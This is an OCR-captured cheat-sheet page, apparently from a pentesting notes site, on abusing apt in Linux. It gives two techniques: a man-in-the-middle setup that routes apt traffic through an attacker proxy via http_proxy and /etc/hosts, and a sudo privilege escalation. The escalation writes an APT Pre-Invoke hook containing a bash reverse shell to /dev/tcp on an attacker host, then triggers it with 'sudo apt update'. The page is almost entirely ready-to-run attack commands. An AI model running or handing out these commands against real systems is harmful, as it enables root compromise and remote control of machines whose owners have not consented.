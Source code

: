 ```yaml
---
title: "Apt"
date: 2024-7-4
tags: ["apt", "update", "privesc", "pre-invoke", "sudo"]
---
```


### MITM (Man-in-the-Middle)

#### 1. Add proxy path in target machine

<div>

```console
export http_proxy=http://<LOCAL_IP>:<LOCAL_PROXY_PORT>
```

</div>

#### 2. Start proxy in local machine

<div>

```console
# Tool
pip3 install --upgrade proxy.py
```

```console
# Start a proxy server
proxy --hostname 0.0.0.0 --port <LOCAL_PROXY_PORT>
```

</div>

#### 3. Redirect traffic to our server

<div>

```console
# Edit /etc/hosts
<LOCAL_IP> apt.update.example.com
```

</div>

<br>

---

### SUDO

<div>

```console
# Create a malicious config
echo 'APT::Update::Pre-Invoke {"bash -c '\''bash -i >& /dev/tcp/<LOCAL_IP>/<LOCAL_PORT> 0>&1'\''"}' > /etc/apt/apt.conf.d/evil
```

```console
# Exploit
sudo apt update -y
```

</div>

<br>